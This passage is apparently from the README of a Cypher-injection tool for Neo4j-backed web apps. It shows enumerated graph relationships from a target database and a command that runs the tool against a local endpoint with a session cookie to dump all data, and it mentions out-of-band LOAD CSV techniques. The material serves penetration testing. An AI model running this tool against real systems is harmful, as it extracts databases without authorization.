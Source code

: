 	[*] available relationships [11]
	[+] FAMILY
	[++] Character:4-[:FAMILY]->Character:7
	[+] PARTNER
	[++] Character:4-[:PARTNER]->Character:5
	[+] ENEMY
	[++] Character:4-[:ENEMY]->Character:6
	[+] FRIEND
	[++] Character:5-[:FRIEND]->Character:4
	[+] WORKS_FOR
	[++] Character:6-[:WORKS_FOR]->Organization:12
	[++] Character:4-[:WORKS_FOR]->Organization:13
	[+] OWNS
	[++] Character:4-[:OWNS]->Place:9
	[++] Character:8-[:OWNS]->Place:11
	[+] VISITS
	[++] Character:5-[:VISITS]->Place:10
	[+] LAWYER_FOR
	[++] Character:8-[:LAWYER_FOR]->Character:4
	[++] Character:8-[:LAWYER_FOR]->Character:5
	
	[!] View node relationship graph: file:///root/tools/web/safecypher/output/network.html
	```


5. Dump everything
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band --dump-all -t 2
	```

## Screenshots

Out-of-band: LOADCSV/APOC.LOAD.CSV/JSON